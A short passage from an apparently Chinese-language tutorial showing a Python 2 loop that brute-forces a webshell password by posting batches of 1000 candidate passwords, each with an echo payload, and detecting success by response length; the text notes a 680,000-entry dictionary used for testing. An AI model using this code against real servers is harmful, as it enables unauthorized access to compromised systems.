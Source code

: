 ```
    new_group = []
    for k in range(i * 1000, (i + 1) * 1000):
        new_group.append(group[k])
        k += 1
    for each in new_group:
        post_data[each] = 'echo "password is %s";' % each
    r = requests.post(shell, data=post_data)
    print "正在进行第 %s 组字典爆破" % str(i+1)
    post_data.clear()
    i+=1
    print r.text
    if len(r.text) != len(wrong_res):
        break
```


如上，代码初步完成，我们先测试下效果：

这里准备了一个字典，有68万+的密码变量，我们把正确的密码放在最后一个：

![Alt text](./pic/1482065296381.png)
